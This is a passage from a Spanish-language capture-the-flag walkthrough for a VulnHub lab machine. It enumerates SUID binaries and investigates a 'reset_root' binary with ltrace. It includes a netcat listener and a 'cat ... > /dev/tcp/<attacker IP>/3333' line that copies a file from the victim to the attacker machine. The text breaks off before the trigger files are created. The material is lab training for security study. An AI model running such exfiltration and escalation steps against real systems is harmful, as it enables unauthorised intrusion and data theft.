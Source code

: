 ```
/usr/bin/at
/usr/bin/sudo
/usr/bin/reset_root    <==== ¿Y esto? ¿Podremos resetear el root :) ?
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1

bash-5.1$
```
Si nos fijamos atentamente en los binarios, vemos uno que llama un poco la atencion: "/usr/bin/reset_root" por lo que lo ejecutaremos para ver que ocurre:
```
bash-5.1$ reset_root

CHECKING IF RESET TRIGGERS PRESENT...
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.

bash-5.1$ 
```
A pesar de haberlo intentado, nos da fallo. ¿Y ahora que? Pues como siempre, no hay que rendirse, por lo que intentaremos bajarnos el archivo a nuestra maquina atacante para poder trabajar de forma mas tranquila utilizando otras herramientas.
Para esto, tendremos que hacer 2 cositas:
1) En la maquina atacante, abriremos otro NETCAT y guardaremos todo lo que llegue por este puerto en un archivo que llamaremos "reset_root" (que casualidad)
	```
		nc -nlvp 3333 > reset_root
	```
2) En la maquina victima, donde tenemos acceso, ejecutaremos un "cat" para que pueda copiar el contenido en nuestra maquina atacante
	```
		cat /usr/bin/reset_root > /dev/tcp/192.168.1.150/3333
	```
Una vez hecho esto, veremos que en nuestra maquina atacante tenemos el archivo "reset_root":
```
──(root㉿kali)-[/home/kali/Downloads/EarthVulnHub]
└─# ls
reset_root
```
Vamos a probar ahora a hacer un "cat" para ver su contenido, pero desgraciadamente es ILEGIBLE, por lo que habra que probar otro posible camino.
Vamos a intentar usar una utilidad de rastreo de librerias llamada "ltrace" que nos indicara a cuales accede "reset_root" cuando lo ejecutamos.
Para ello, primero daremos permisos de ejecucion a dicho archivo escribiendo "chmod +x reset_root".
Ahora ya solo ejecutariamos "ltrace" para ver las librerias a las que accede:
```
ltrace ./reset_root
```
El terminal nos muestra entonces la siguiente informacion:
```
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                                  = 38
access("/dev/shm/kHgTFI5G", 0)                                               = -1
access("/dev/shm/Zw7bV9U5", 0)                                               = -1
access("/tmp/kcM0Wewe", 0)                                                   = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                                  = 44
+++ exited (status 0) +++
```
Como vemos, los "triggers" estan a valor "-1", es decir, faltan y esto hace que no se pueda ejecutar correctametne el comando "reset_root". 
Este sera el momento de ir de nuevo a la terminal de la maquina victima y mediante el comando "touch" ir creando cada uno de los "triggers":